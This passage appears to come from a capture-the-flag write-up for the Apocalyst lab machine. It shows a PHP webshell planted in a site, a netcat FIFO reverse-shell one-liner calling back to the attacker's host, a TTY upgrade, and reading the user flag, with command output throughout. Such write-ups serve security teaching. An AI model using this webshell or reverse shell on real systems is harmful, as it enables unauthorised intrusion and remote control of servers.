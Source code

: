This shows I can write PHP that will be executed. I'll change the code
to a webshell,
`<?php if (isset($_REQUEST['0xdf'])){ system($_REQUEST['0xdf']); echo "\n";}`
, and now it executes commands:



    oxdf@parrot$ curl -s 'http://apocalyst.htb/?p=8&0xdf=id' | head -3
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

    <!DOCTYPE.md>



### Shell

I wasn't able to get my go-to Bash reverse shell to work, but the FIFO
`nc` shell worked fine:



    oxdf@parrot$ curl -s 'http://apocalyst.htb/?p=8' --data-urlencode '0xdf=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f'



With the listener already running, it gets the shell:



    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.46] 35858
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



`python` isn't on this host, but `python3` is, so I can upgrade my
shell:



    $ python -c 'import pty;pty.spawn("bash")'
    /bin/sh: 2: python: not found
    $ python3 -c 'import pty;pty.spawn("bash")'
    www-data@apocalyst:/var/www.md/apocalyst.htb$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    www-data@apocalyst:/var/www.md/apocalyst.htb$



This user can access `/home/falaraki` and read `user.txt`:



    www-data@apocalyst:/home/falaraki$ cat user.txt
    9182d4d0**********************
